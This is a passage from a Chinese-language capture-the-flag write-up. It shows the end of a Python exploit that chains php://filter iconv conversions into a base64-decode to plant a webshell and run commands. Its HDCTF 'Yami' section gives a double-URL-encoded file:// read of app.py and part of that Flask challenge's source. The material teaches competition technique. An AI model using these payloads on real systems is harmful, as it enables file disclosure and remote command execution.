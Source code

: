 ```python
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"

final_payload = f"php://filter/{filters}/resource={file_to_use}"

r = requests.get(url, params={
    "0": command,
    "role": final_payload
})

print(r.text)
```

https://tttang.com/archive/1395/#toc_0x00-tldr

参考这篇文章,也就是利用filter编码转换构造字符,base64 decode会忽略非base64字符,构造webshell



## HDCTF

### Yami

存在任意文件读取,过滤了app.py,双url编码绕过

```
?url=file:///%25%36%31%25%37%30%25%37%30/%25%36%31%25%37%30%25%37%30.py
```

源码

```python
#encoding:utf-8
import os
import re, random, uuid
from flask import *
from werkzeug.utils import *
import yaml
from urllib.request import urlopen
app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
app.debug = False
BLACK_LIST=["yaml","YAML","YML","yml","yamiyami"]
app.config['UPLOAD_FOLDER']="/app/uploads"

@app.route('/')
def index():
    session['passport'] = 'YamiYami'
    return '''
    Welcome to HDCTF2023 <a href="/read?url=https://baidu.com">Read somethings</a>
    <br>
    Here is the challenge <a href="/upload">Upload file</a>
    <br>
    Enjoy it <a href="/pwd">pwd</a>
    '''
@app.route('/pwd')
def pwd():
    return str(pwdpath)
@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('app.*', url, re.IGNORECASE)
```